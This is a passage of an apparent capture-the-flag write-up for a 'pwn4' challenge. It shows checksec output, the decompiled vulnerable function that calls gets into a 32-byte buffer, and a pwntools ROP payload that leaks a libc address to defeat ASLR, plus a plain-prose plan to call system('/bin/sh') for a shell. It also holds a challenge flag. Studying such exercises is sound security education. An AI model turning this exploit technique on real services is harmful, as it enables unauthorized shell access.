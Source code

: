 flag: `FLAG{r37urn_0r13n73d_pr06r4mm1n6_e68a48}`

## pwn4

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/rop_ret2libc/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```c
void vuln(void)

{
  char local_28 [32];
  
  puts("This binary does nothing; good luck getting the flag now!\n");
                    /* Smashes stack using local_28@0x00401142 (+0,1,40) */
  gets(local_28);
  return;
}
```

Nothing too interesting here in the binary, but we're provided the server libc version which means that we can pretty easily perform a return-to-libc attack.  Since ASLR is enabled on the server we'll need to leak the address libc is loaded into.  

### leaking libc address

We have control over the return pointer so leaking the libc address is fairly trivial.  What we need to do is leak the address of a symbol in libc and then subtract the offset we know that symbol is inside libc.  What remains is the beginning of libc which is the address that it starts at.  

```python
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

payload = offset * b"A" + p64(pop_rdi) + p64(elf.symbols['__libc_start_main']) + p64(elf.plt['puts']) + p64(elf.symbols['main'])

p.sendline(payload)
p.recvline()
p.recvline()
libc_start_address = int.from_bytes(p.recvline().rstrip(), byteorder="little")
libc.address = libc_start_address - libc.sym["__libc_start_main"]
print("Address of libc %s " % hex(libc.address))
```

### exploiting with libc

Nothing too interesting in this part.  We know the address libc is loaded at which means we know the location of `system` and the string `"/bin/sh"` which means we can just set up arguments and then call `system` to get a shell.  
